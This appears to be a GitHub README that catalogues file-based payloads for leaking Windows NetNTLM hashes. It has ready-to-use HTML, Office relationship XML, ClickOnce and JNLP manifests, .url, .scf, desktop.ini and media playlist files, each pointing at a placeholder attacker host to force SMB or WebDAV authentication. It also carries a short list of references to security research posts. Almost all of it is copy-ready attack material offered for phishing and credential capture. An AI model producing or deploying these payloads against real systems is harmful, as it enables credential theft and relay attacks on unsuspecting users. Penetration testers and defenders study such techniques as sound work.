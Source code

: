 # Manual

## 01 - Internet Explorer or Microsoft Edge

```html
<!DOCTYPE html>
<html>
	<img src="file://<attacker_IP>/leak/leak.png"/>
</html>
```

## 02 - Microsoft Office subDoc

Extract `.docx` file using `7zip` or `unzip` and modify the contents in `word\_rels\settings.xml.rels`.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://<attacker_IP>/leak/Template.dotx" TargetMode="External"/>
</Relationships>
```

Using a URL handle with `ms-word:ofe|u|` scheme can trigger SMB relay.

```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<attacker_IP>\leak\leak.docx';
	</script>
</html>
```

## 03 - ClickOnce

TODO: check `.manifest` and `.appref-ms` to reproduce it.

Name it with `.application` extension.

```xml
<?xml version="1.0" encoding="utf-8"?>
<asmv1:assembly xsi:schemaLocation="urn:schemas-microsoft-com:asm.v1 assembly.adaptive.xsd" manifestVersion="1.0" xmlns:dsig="http://www.w3.org/2000/09/xmldsig#" xmlns="urn:schemas-microsoft-com:asm.v2" xmlns:asmv1="urn:schemas-microsoft-com:asm.v1" xmlns:asmv2="urn:schemas-microsoft-com:asm.v2" xmlns:xrml="urn:mpeg:mpeg21:2003:01-REL-R-NS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
	<assemblyIdentity name="Leak.app" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<description asmv2:publisher="Leak" asmv2:product="Leak" asmv2:supportUrl="" xmlns="urn:schemas-microsoft-com:asm.v1" />
	<deployment install="false" mapFileExtensions="true" trustURLParameters="true" />
	<dependency>
		<dependentAssembly dependencyType="install" codebase="file://<responder ip>/snare/Program.exe.manifest" size="32909">
			<assemblyIdentity name="Program.exe" version="1.0.0.0" publicKeyToken="0000000000000000" language="neutral" processorArchitecture="x86" type="win32" />
			<hash>
				<dsig:Transforms>
					<dsig:Transform Algorithm="urn:schemas-microsoft-com:HashTransforms.Identity" />
				</dsig:Transforms>
				<dsig:DigestMethod Algorithm="http://www.w3.org/2000/09/xmldsig#sha1" />
				<dsig:DigestValue>ESZ11736AFIJnp6lKpFYCgjw4dU=</dsig:DigestValue>
			</hash>
		</dependentAssembly>
	</dependency>
</asmv1:assembly>
```

## 04 - Java Web Start

Name it with `.jnlp` extension.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<jnlp spec="1.0+" codebase="" href="">
	<resources>
		<jar href="file://<<attacker_IP>>/leak/leak.jar"/>
	</resources>
	<application-desc/>
</jnlp>
```

## 05 - Internet Shortcut File

SMB link and name it with `.url` extension.

```
[InternetShortcut]
URL=https://website.com
IconIndex=0
IconFile=\\<attacker_IP>\snare\file.ico
```

WebDAV link.

```
[InternetShortcut]
URL=file://<attacker_IP>/@snare
```

## 06 - Shell Command Files

Name it with `.scf` extension.

```
[Shell]
Command=2
IconFile=\\<attacker_IP>\snare\file.ico
[Taskbar]
Command=ToggleDesktop
```

## 07 - Desktop.ini

Name it with `.ini` extension.

```
C:\> mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\<attacker_IP>\snare >> desktop.ini
attrib +s +h desktop.ini
```

```
[.ShellClassInfo]
IconResource=\\<attacker_IP>\snare
```

## 08 - Windows Media Player

Name it with `.m3u` extension.

```
#EXTM3U
#EXTINF:1337, Snare
\\<attacker_IP>\file.mp3
```

Name it with `.asx` extension.

```
<asx version="3.0">
	<title>Leak</title>
	<entry>
		<title></title>
		<ref href="file://<attacker_IP>/snare/file.wma"/>
	</entry>
</asx>
```

---
## References

### Rhino Security Labs

- [Rhino Security Labs: Abusing Microsoft Word Features for Phishing - "subDoc"](https://rhinosecuritylabs.com/research/abusing-microsoft-word-features-phishing-subdoc/)

### Securify

- [Securify: Living off the Land Stealing NetNTLM Hashes](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Mubix

- [Malicious.link: SMB/HTTP Auth Capture via SCF File](https://room362.com/posts/2016/smb-http-auth-capture-via-scf/)

### 1337Red

- [1337red: Using A SCF File to Gather Hashes](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/)

### Pentest Lab

- [Pentestlab Blog: Microsoft Office - NTLM Hashes via Frameset](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)

- [Pentestlab Blog: SMB Share SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)